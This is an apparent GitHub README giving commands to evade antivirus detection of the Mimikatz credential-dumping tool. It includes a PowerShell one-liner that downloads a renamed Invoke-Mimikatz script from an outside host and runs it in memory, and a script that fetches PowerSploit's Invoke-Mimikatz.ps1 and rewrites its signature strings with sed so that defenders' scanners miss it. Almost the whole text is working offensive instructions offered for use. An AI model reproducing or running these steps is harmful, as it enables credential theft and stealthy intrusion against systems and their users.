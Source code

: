 # AV Bypass to run Mimikatz

(mimikatz 2.1.1 (x64) built on Nov 12 2017 15:32:00)



Powershell as Administrator

    Import-Module .\Invoke-Mimidogz.ps1
    Invoke-Mimikatz -Command "privilege::debug"

or via web:

    IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mttstt/mimi/master/Invoke-Mimidogz.ps1');Invoke-Mimidogz -Command "privilege::debug" 



# Script to create the

    wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
    sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
    sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
